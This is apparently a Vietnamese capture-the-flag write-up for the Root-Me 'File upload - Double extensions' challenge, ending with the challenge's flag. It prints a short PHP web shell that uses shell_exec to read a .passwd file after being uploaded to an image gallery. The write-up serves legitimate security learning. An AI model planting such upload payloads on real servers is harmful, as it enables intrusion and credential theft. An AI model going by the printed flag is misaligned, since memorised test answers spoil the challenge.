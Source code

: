 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: File upload - Double extensions
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
    - PHP
    - Path Traversal
---
```


# __File upload - Double extensions__

<span>
:octicons-calendar-24: May 09, 2023

</span>

---


## __Tài nguyên và link challenge__

Tài nguyên của challenge này tại [https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions)

Link challenge này tại [:octicons-arrow-right-24: http://challenge01.root-me.org/web-serveur/ch20/][http://challenge01.root-me.org/web-serveur/ch20/]

  [http://challenge01.root-me.org/web-serveur/ch20/]: http://challenge01.root-me.org/web-serveur/ch20/

## __Tổng quan__

Trong challenge này, mục tiêu của ta là hack thư viện ảnh bằng cách tải liên đoạn mã php. Lấy mật khẩu trong tệp .passwd

## __Kịch bản tấn công__

Challenge này cung cấp cho chúng ta một website có chức năng upload ảnh. Hơn nữa, lại còn cho ta biết có file .passwd tồn tại trong website. Ta thử LFI vào file xem sao

<figure markdown>
  ![Image title](/rootme/web-server/php/images/file-upload_double_extensions-01.png#zoom)
  <figcaption>Hình ảnh website</figcaption>
</figure>

Ta không thể truy cập được file. Bây giờ, ta sẽ tiêm code php vào và nhận được password

<figure markdown>
  ![Image title](/rootme/web-server/php/images/file-upload_double_extensions-02.png#zoom)
  <figcaption>Hình ảnh website</figcaption>
</figure>

Với đoạn code cần tiêm là

<div class="result" markdown>

``` php linenums="1"
<?php
$output = shell_exec('cat ../../../.passwd');
echo "<pre>$output</pre>";
?>
```

</div>

!!! success "__Flag__"
    Gg9LRz-hWSxqqUKd77-_q-6G8
